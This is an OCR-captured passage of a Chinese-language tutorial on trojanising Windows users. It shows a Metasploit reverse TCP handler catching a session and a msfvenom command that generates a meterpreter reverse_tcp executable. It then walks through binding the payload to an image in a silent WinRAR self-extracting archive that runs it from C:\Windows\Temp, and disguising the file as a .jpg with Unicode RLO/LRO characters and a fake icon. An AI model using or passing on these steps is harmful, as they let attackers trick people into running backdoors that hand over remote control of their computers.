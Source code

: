 > msf6 exploit(multi/handler) > set LPORT 4444 msf6 exploit(multi/handler) > exploit 
> 
> 			[*] Started reverse TCP handler on "监听机IP":4444 
> 			
> ```
>
> 6、打开快播主程序准备看苍老师电影 一会弹出的这个窗口，点运行就可以了。 
>
> 7、在 Kali 上查看会话已经建立了，说明后门运行成功了

#### 二、实战-利用自解压自动运行并上线 MSF 

###### 1、生成伪装恶意程序的封面图标 需要安装 rar 压缩工具。 

WinRAR 官网：http://www.winrar.com.cn/ 下载安装即可不需要特殊配置。 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.36.136 LPORT=4444 -f exe -o /var/www/html/ dongman.exe                       	#msfvenom 生成 exe  
```

> ```
> 准备一张图片 		
> 将图片生成 ico 图标用于恶意程序的封面图标：http://www.ico51.cn/ 
> 注：图片尺寸选最大的，也可以找一下其它的 ico 图标生成网站。 转换后会自动下载 
> ```

###### 2、捆绑恶意程序和图片并设置自动运行 

```
选中dongman.exe和dongman.jpg 
1、常规 >> 添加到压缩文件 >> 勾选：创建自解压格式压缩文件  
2、高级 >> 设置自解压选项 >> 常规 >> 解压路径(输入)：C:\Windows\Temp >> 勾选：绝对路径  
		注：dongman.exe 和 dongman.jpg 会被解压到 C:\Windows\Temp 
3、设置 >> 解压后运行dongman.exe 和dongman.jpg（输入）
	C:\Windows\Temp\dongman.jpg 
	C:\Windows\Temp\dongman.exe 
4、模式 >> 全部隐藏
5、更新 >> 更新模式 >> 勾选：解压并替换文件 >> 覆盖模式 >> 勾选：覆盖所有文件

 	更新方式 
		多次解压可能会出现文件已经存在的情况，如果文件存在会询问用户。 
		建议选择覆盖所有文件或跳过已存在的文件。 
	覆盖：缺点是如果 exe 程序已经运行那么覆盖会失败。 
	跳过：如果 exe 文件的参数有修改跳过后则运行的还是旧版本。
 
6、文本和图标 >> 最下面的浏览 添加生成的 ico 图标。 
7、生成后的自解压文件。		*#静默方式解压 #*
 
建议：每次制作不要用相同的名字。    
```

###### 3、使用 Unicode 字符修改文件名后缀 

```
重命名 选中文件名鼠标右键插入 RLO RLO 从右到左 LRO 从左到右  
插入 gpj，RLO 是从右到左，所以最终 gpj=jpg 此时文件名后缀为 exe.jpg，那这样还不理想，文件名部分是 exe 还是没什么意义。 
添加文件名 重命名，在 exe 前面插入 Unicode 控制字符 LRO  输入文件名：动漫 exe.jpg 
最终效果，文件有 ico 图标伪装图片的缩略图，文件名后缀.jpg 来伪装文件类型。 
注：exe.不可以去掉 

		自行体会
```
